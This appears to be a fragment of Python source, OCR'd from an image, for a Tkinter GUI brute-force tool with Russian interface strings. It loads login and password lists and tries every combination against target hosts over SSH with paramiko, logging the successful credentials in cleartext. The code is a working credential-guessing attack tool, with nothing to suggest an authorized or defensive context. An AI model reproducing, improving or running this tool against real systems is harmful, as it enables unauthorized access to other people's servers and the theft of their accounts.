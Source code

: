     def load_brute_logins(self):
        file_path = filedialog.askopenfilename()
        if file_path:
            with open(file_path, "r") as f:
                self.brute_logins = [line.strip() for line in f if line.strip()]
            self.brute_status.config(text=f"Загружено: {len(self.brute_logins)} логинов")

    def load_brute_passwords(self):
        file_path = filedialog.askopenfilename()
        if file_path:
            with open(file_path, "r") as f:
                self.brute_passwords = [line.strip() for line in f if line.strip()]
            self.brute_status.config(text=f"Загружено: {len(self.brute_passwords)} паролей")

    def brute_worker(self):
        total = len(self.brute_targets) * len(self.brute_logins) * len(self.brute_passwords)
        checked = 0
        with ThreadPoolExecutor(max_workers=self.brute_threads.get()) as executor:
            for target in self.brute_targets:
                ip, port = target.split(":") if ":" in target else (target, "3389")
                for login in self.brute_logins:
                    for password in self.brute_passwords:
                        if not self.brute_running:
                            break
                        try:
                            ssh = paramiko.SSHClient()
                            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                            ssh.connect(ip, port=int(port), username=login, password=password, timeout=self.timeout.get())
                            self.brute_results.append({"ip": ip, "port": port, "login": login, "password": password, "status": "Успех"})
                            self.brute_log.insert(tk.END, f"Успех: {ip}:{port} - {login}:{password}\n")
                            ssh.close()
                        except Exception as e:
                            self.brute_results.append({"ip": ip, "port": port, "login": login, "password": password, "status": f"Ошибка: {e}"})
                            self.brute_log.insert(tk.END, f"Ошибка: {ip}:{port} - {login}:{password} - {e}\n")
                        self.brute_log.see(tk.END)
                        self.brute_tree.delete(*self.brute_tree.get_children())
                        for result in self.brute_results:
                            self.brute_tree.insert("", "end", values=(
                                result["ip"], result["port"], result["login"], result["password"], result["status"]
                            ))
                        checked += 1
                        self.brute_progress["value"] = (checked / total * 100) if total else 0
                        self.brute_status.config(text=f"Проверено: {checked}/{total}")
                        self.root.update()
        self.stop_brute()

    def start_brute(self):
        if self.brute_running or not (self.brute_targets and self.brute_logins and self.brute_passwords):
            messagebox.showwarning("Ошибка", "Загрузите цели, логины и пароли")
            return
        self.brute_running = True
        self.brute_start_btn["state"] = "disabled"
        self.brute_stop_btn["state"] = "normal"
        self.brute_progress["value"] = 0
        self.brute_status.config(text="Брут начат...")
        threading.Thread(target=self.brute_worker, daemon=True).start()
